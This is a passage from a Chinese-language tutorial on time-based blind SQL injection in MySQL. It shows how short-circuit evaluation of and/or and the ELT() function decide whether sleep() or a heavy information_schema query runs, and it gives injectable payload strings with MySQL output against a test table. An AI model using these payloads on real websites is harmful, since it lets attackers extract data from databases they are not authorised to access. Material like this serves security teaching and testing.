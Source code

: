 这个怎么看，实际上 一个 and 连接的是两个集合，and 表示取集合的交集，我么知道0 和任何集合的交集都是 0 ，那么系统就不会继续向下执行 sleep()，那么为什么第一条语句没有返回任何东西呢？因为 id =1 的结果和 sleep(1) 的交集为空集

### **2.or 1 的短路特性**

```
mysql&gt; select * from bsqli where id = 1 or 1 or sleep(1);
+----+--------+----------+
| id | name   | password |
+----+--------+----------+
|  1 | K0rz3n | 123456   |
|  2 | L_Team | 234567   |
+----+--------+----------+
2 rows in set (0.00 sec)

mysql&gt; select * from bsqli where id = 1 or 0 or sleep(1);
+----+--------+----------+
| id | name   | password |
+----+--------+----------+
|  1 | K0rz3n | 123456   |
+----+--------+----------+
1 row in set (1.00 sec)
```

和上面类似 or 取得是两个集合的并集，系统检测到 or 1 的时候就不会继续检测，所以 sleep() 也就不会运行。

那么这里我们可以将 sleep() 换成我们下面准备讲的 Heavy Query ，如下

```
id = 1' and 1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.SCHEMATA C)%23
id = 1' and 0 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.SCHEMATA C)%23
```

除了上面两个我们还能用 **case when then else end** 这个句型，这个和 **if** 是类似的我这里就不多介绍，我这里还想说一个我另外发现的比较有趣的一个函数(**准确的说是两个函数**)

### **3.elt() 的分流特性**

```
ELT(N ,str1 ,str2 ,str3 ,…)
```

函数使用说明：若 N = 1 ，则返回值为 str1 ，若 N = 2 ，则返回值为 str2 ，以此类推。 若 N 小于 1 或大于参数的数目，则返回值为 NULL 。 ELT() 是 FIELD() 的补数

```
mysql&gt; select * from bsqli where id = 1 and elt((1&gt;1)+1,1=1,sleep(1));
+----+--------+----------+
| id | name   | password |
+----+--------+----------+
|  1 | K0rz3n | 123456   |
+----+--------+----------+
1 row in set (0.00 sec)

mysql&gt; select * from bsqli where id = 1 and elt((1=1)+1,1=1,sleep(1));
Empty set (1.00 sec)

```
